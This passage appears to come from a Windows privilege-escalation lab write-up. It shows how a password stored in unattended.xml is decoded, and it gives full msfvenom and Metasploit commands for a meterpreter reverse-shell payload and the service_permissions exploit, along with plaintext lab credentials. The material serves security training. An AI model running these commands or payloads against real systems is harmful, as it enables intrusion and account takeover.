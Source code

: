 f.	Flag is found in .\AppData\
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/67d1de93-9aac-4ce6-98d3-792f76291b39)


## Windows Privilege Escalation
**Windows Privilege Escalation I** 
a.	Accessed the machine with Mike’s credential (password Videoerty123)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/77609da4-ad63-4c2b-8cf6-a6e6165d6a84)

 
b.	Got the unattended.xml file from C:\Windows\Panther with cmd: cd C:\Windows\Panther
c.	Using cat cmd to view xml file 
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/31608c50-45ad-46e1-9042-0d412e01a84f)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/322babd6-a7d6-4731-a5a1-24672a43d815)

 
d.	Decoding the base64 hash with cmd: echo 'WgBOAHgAagBHAHcAZABpAFAAYQBtAEwAQQBkAG0AaQBuAGkAcwB0AHIAYQB0AG8AcgBQAGEAcwBzAHcAbwByAGQA' | base64 --decode
Reveals the password: ZNxjGwdiPamL
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/8445f1de-3034-418b-a3fd-abb557223cba)


e.	Login with username: administrator and the password ZNxjGwdiPamL
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/240827f7-d524-48c4-b1f2-698387b77548)
 

f.	Flag is found in music folder
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/024b037f-90d5-4805-b643-df5cd08f88fb)


**Windows Privilege Escalation II** 
a.	Used the following cmd to create a payload:
msfconsole
use exploit/multi/handler
set LHOST 10.110.28.200
set payload windows/x64/meterpreter/reverse_tcp
set LPORT 4444
set ExitOnSession false
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST='10.110.28.200' LPORT='4444' -f exe -o payload.exe[*] exec: msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST='10.110.28.200' LPORT='4444' -f exe -o payload.exe
b.	On another terminal, copy to payload to Mike’s machine with cmd: ssh mike@10.110.28.30 (password: qwerty123)
c.	Execute payload from Mike’s machine .\payloaod.exe
d.	Then back to the first terminal and run the cmds to exploit, get meterpreter session and get the flag:
use exploit/windows/local/service_permissions
Set session 1
exploit 
cd C:\Users\Administrator
dir/s *flag*
cd favorites
type MyServiceFlag.txt
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/d6c1d375-ca37-4695-a269-846ca7e88cf6)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/b1cf6e77-86f5-442d-9ee2-50fecb59e142)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/1e58a7dc-f2cb-4a68-bae9-d9f92fac44f6)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/2b13a9af-96e8-46fb-8a75-7a995fb42af1)
![image](https://github.com/ookelvyn/System-attack-and-defense/assets/30266503/dbc2ecc1-45b6-46ab-8e2a-c3042413d4bd)
